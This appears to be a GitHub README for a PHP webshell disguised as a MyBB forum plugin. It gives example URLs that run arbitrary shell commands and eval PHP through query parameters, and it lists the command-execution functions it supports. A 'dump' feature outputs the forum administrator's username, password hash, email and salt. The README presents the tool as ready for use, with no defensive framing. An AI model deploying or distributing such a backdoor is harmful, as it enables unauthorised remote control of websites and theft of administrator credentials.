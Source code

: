 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Features:

  http://127.0.0.1/mybb/?cmd=dump
  
  Admin Dumped:
1:admin:3052f668213bed7aef217c38683b94ab:admin@admin.com:aFmLOO6M

Current functions:

- shell_exec,
- passthru,
- exec,
- system,
- popen,
- proc_open,
- eval,
- assert,
- pcntl_exec,
- ``
  
